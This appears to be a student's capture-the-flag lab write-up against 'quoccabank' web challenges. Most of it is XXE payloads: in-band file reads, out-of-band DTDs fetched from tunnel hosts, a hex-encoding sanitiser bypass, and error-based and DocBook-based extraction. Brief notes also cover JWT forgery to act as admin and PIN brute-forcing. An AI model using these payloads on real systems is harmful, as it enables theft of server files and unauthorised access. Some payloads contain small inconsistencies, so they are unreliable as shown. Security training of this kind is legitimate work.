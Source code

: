## v1.feedifier.quoccabank.com

Used pastebin raw paste - https://pastebin.com/RyQepthP

In-band basic xxe payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM 'file:///flag_64b3ebd165d9508735bc8a29ddebb285'> ]>
<rss> <channel>
<item> <description>1</description> <link>1</link> <title>&xxe;</title>
</item> </channel> </rss>
```

## v2.feedifier.quoccabank.com (TBD) 
Used pastebin + locally hosted url (since I wanted http)

Out-band xxe payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY>
  <!ENTITY % dtd SYSTEM "http://strong-gecko-39.loca.lt/feedifierv2.txt">
  %dtd;
]>
<rss>
<channel>
	<item>
		<description>1</description>
		<link> 1</link>
		<title>&inject;</title>
	</item>
</channel>
</rss>
```

And at http://strong-gecko-39.loca.lt/feedifierv2.txt
```xml
<!ENTITY inject SYSTEM "file:///flag_0054c423ef634e00b4a586f4142e7522">
```


# v3.feedifier.quoccabank.com
1. Here, the sanitiser was checking keywords in my secondary file. (probably a regex matching). 
So, to bypass this, you can try using hex encodings (Eg; f is 0x66)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY % dtd SYSTEM "http://warm-panther-32.loca.lt/payload3.txt">
  %dtd;
  %comb;
]>
<rss>
<channel>
	<item>
		<description>1;</description>
		<link> 1;</link>
		<title>&inject;</title>
	</item>
</channel>
</rss>
```xml

At http://strong-gecko-39.loca.lt/feedifierv2.txt:
```xml
<!ENTITY % comb "<!ENTITY inject SYSTEM '&#x66;ile:///&#x66;lag_d9cd6fcd14d4597712c583d5fc1e5362'>">
```


2. Alternative method: Error based XXE

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY % dtd SYSTEM "http://warm-panther-32.loca.lt/payload3.txt">
  %dtd;
]>
<rss>
<channel>
	<item>
		<description>1</description>
		<link>1</link>
		<title>&dtd;</title>
	</item>
</channel>
</rss>
```


And at http://warm-panther-32.loca.lt/payload3.txt:
```xml
<!ENTITY % first "fi">
<!ENTITY % second "le:////fl">
<!ENTITY % third "ag_d9cd6fcd14d4597712c583d5fc1e5362">

<!ENTITY % dummy1 "<!ENTITY &#x25; trick SYSTEM '/%first%second%third;'>">

%dummy1         --->  resolved into <!ENTITY % trick SYSTEM 'file:///flag_{...}'>

<!ENTITY % dummy2 "<!ENTITY &#x25; error SYSTEM '/%trick;'>">

%dummy2         --> puts an invalid flag/flag/{...} file

%error 
```

# v3.feedifier.quoccabank.com
1. Overwrite a dtd defintion from docbook. Note: only the first definition is used and rest are ignored.
You need to find a paramterised definition which is also executed in the docbook

Error based extraction:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY % importDocbook SYSTEM "file:///usr/share/sgml/docbook/dtd/4.5/docbookx.dtd">
  <!ENTITY % ISOamso '<!ENTITY &#37; flag SYSTEM "file:///flag{...}">'>
  <!ENTITY &#37; win "<!ENTITY &#38;#37; newvar SYSTEM "flag;">'>

  %importDocbook;
  %win;
]>
<rss>
<channel>
	<item>
		<description>1</description>
		<link>1</link>
		<title>&dtd;</title>
	</item>
</channel>
</rss>
```

# letters.quoccabank.com (TBD)

# signin (TBD)

# wallet.quoccabank.com

# notes.quoccabank.com
Access Control Vuln:  

1. Cookie was a JWT token.  
2. Changed username to admin, and modified expiry time to get flag

# files.quoccabank.com
Flag 1: Brute forcing the pins in `files.quoccabank.com/admin`  

Flag 2: Logging in as username=admin, password=0 (Got clue from sales.quoccabank)

Flag 3: Escalating privilege using /staff/wfh 

Flag 4: Why isnt my JWTtoken with flask key not working??